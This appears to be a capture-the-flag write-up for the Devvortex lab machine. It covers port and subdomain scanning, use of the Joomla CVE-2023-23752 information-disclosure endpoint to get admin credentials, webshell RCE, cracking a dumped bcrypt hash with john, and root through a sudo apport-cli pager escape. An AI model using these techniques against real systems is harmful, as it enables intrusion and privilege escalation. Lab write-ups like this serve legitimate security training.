# Devvortex

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 10.129.37.255                   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-30 10:25 EST
Nmap scan report for 10.129.37.255
Host is up (0.017s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Did a detailed scan for the HTTP port as well:

```
$ nmap -p 80 -sC -sV --min-rate 3000 10.129.37.255
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-30 10:26 EST
Nmap scan report for 10.129.37.255
Host is up (0.0074s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `devvortex.htb` to the `/etc/hosts` file.

### Web Enum -> CVE-2023-23752 Disclosure

The website was a corporate website for a service provider:



There was nothing inherently interesting about this site, so I went ahead with a `gobuster` directory and `wfuzz` subdomain scan.

`wfuzz` picked up on a `dev` subdomain, whereas `gobuster` didn't pick up on much:

```
$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H 'Host: FUZZ.devvortex.htb' --hc=302 -u http://devvortex.htb
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://devvortex.htb/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================

000000019:   200        501 L    1581 W     23221 Ch    "dev"
```

Add this to the `/etc/hosts` file. This `dev` endpoint was looked to be another corporate site:



I checked the page source, and found a lot of references to a `cassiopeia` directory:



Googling for this led to Joomla! Content Management System showing up.



I checked online on how to enumerate this website, and found that visiting `/administrator/manifests/files/joomla.xml` would reveal the version running:



There are a number of vulnerabilities that affect this version of Joomla, most notably an unauthenticated information disclosure one.



Reading the script, it seems that visiting `/api/index.php/v1/config/application?public=true` would show a password, and it worked!



There was a user `lewis`, and using this password allowed me to sign in to the admin panel at `/administrator`.



Hacktricks tells me that RCE is possible from here by replacing a `.php` file with a webshell, similar to Wordpress.



After saving, I tested and found that RCE works:



From here, getting a reverse shell is easy.



## Privilege Escalation

### MySQL Enum -> User Creds

There is a user `logan` within this machine, and I cannot read the user flag yet.

```
www-data@devvortex:/home$ ls -la
total 12
drwxr-xr-x  3 root  root  4096 Sep 26 19:16 .
drwxr-xr-x 19 root  root  4096 Oct 26 15:12 ..
drwxr-xr-x  3 logan logan 4096 Nov 21 11:04 logan
```

Since we had the password of `lewis`, I thought to check the MySQL database present:

```
www-data@devvortex:~/dev.devvortex.htb$ netstat -tulpn 
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -

<TRUNCATED>

www-data@devvortex:~/dev.devvortex.htb$ mysql -u lewis -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 4019
Server version: 8.0.35-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

From this database, I grabbed the hashed password of `logan`, then cracked it using `john`. 

```
mysql> select * from sd4fg_users;
$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12

$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tequieromucho    (?)     
1g 0:00:00:08 DONE (2023-11-30 10:51) 0.1203g/s 168.9p/s 168.9c/s 168.9C/s lacoste..harry
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Using this password, I could `su` to `logan`.

### Sudo Privileges -> Apport-CLI Exploit

`logan` can run `apport-cli` as the `root` user:

```
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

Checking the version, both the distro and version of the software were outdated and had a specific exploit for it:

```
logan@devvortex:~$ /usr/bin/apport-cli --version
2.20.11
logan@devvortex:~$ cat /etc/lsb-release 
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_CODENAME=focal
DISTRIB_DESCRIPTION="Ubuntu 20.04.6 LTS"
```





I tried to use the application, and it kept telling me I needed to have a crash report.

```
logan@devvortex:~$ /usr/bin/apport-cli
No pending crash reports. Try --help for more information.
```

Based on this, I had to create a crash report which would be stored in `/var/crash`, which can be done like so:

```bash
sleep 10 &
killall -SIGSEGV sleep
```

Afterwards, following the exploit, the crash dump file will be located `/var/crash`, and I could access it and use option 'V':

```
logan@devvortex:/var/crash$ sudo /usr/bin/apport-cli -c _usr_bin_sleep.1000.crash
<TRUNCATED>

What would you like to do? Your options are:
  S: Send report (29.9 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): V
<TRUNCATED> (This will generate a lot of output)
```

Then, just `!bash` to get a `root` shell:



Rooted!